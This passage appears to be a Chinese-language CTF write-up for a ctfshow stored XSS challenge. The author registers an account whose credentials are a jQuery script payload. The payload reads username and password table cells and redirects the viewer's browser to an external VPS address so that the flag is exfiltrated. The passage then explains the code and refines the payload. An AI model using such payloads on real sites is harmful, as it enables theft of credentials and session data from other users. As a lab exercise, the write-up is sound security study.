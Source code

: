 

**方法二：jQuery选择器查找类和获取内容**

我们已经得知了我们要获取的数据对应的类名字是layui-table-cell和laytable-cell-1-0-1，对应用户名和密码

这里我们可以只读一个，也可以都读，都读的话.layui-table-cell.laytable-cell-1-0-1，只读一个的话laytable-cell-1-0-1

js中indexof()方法返回值在字符串中第一次出现的位置，如果未找到该值，则indexof()方法返回-1，indexof()方法区分大小写

我们现在控制台测试一下：（能成功获取类和内容就可以了）

```
$('.laytable-cell-1-0-1').each(function(index,value){
	console.log(value);
});
```

![image-20250423215117393](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504232151448.png)

vps监听9023端口

payload:（作为账号密码注册后登录）

```
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){if(value.innerHTML.indexOf('ctfshow{')>-1){window.location.href='http://120.46.41.173:9023/'+value.innerHTML;}});</script>

```

解释一下它的每一部分：

> $('div.layui-table-cell.laytable-cell-1-0-1').each(function(index, value) { ... });
> 这是一个 jQuery 选择器，它查找具有类名 'layui-table-cell'、'laytable-cell-1-0-1' 的 <div> 元素集合，并对每个元素执行一个函数。
>
> .each(function(index, value) { ... })
> 这是 jQuery 的遍历方法，它会遍历匹配的元素集合，并对每个元素执行包含在函数中的操作。在这里，函数接受两个参数，index 表示当前元素在集合中的索引，value 表示当前元素的引用。
>
> if (value.innerHTML.indexOf('ctfshow{') > -1) { ... }
> 这是在遍历中的条件语句，它检查当前元素的内容是否包含字符串 'ctfshow{'。value.innerHTML 表示当前元素的 HTML 内容，.indexOf('ctfshow{') 用于查找是否包含 'ctfshow{'，如果包含则返回大于 -1 的索引，否则返回 -1。
>
> window.location.href = 'http://120.46.41.173:9023/' + value.innerHTML;
> 如果条件满足，即当前元素的内容包含 'ctfshow{'，则执行这一行代码。它会将浏览器的当前位置重定向到一个新的 URL，这个 URL 是 'http://120.46.41.173:9023/' 加上当前元素的内容。这样就可以在浏览器中打开一个新的页面，新页面的 URL 包含了 'ctfshow{' 以及其他内容。

这里有点小问题，带出来的内容不是flag，而是payload

我们分析一下，猜测他确实把第一个用户的密码给了。但是第一个用户是我刚刚注册的那个，就是我的payload，而且我的payload也包含ctfshow{

验证猜想，我们重新注册了一个号，账号和密码都是ctfshow{i an jay17}，果然，监听的内容就变成了ctfshow{i an jay17}

![image-20250424194749308](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504241947338.png)

所以这题是特殊情况，我们需要改改payload（包含ctfshow{，但是不保护script）

```
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function (index, value) {if ((value.innerHTML.indexOf('ctfshow{') > -1)&&(value.innerHTML.indexOf('script') === -1)) {window.location.href = 'http://120.46.41.173:9023/' +value.innerHTML;}});</script>
```

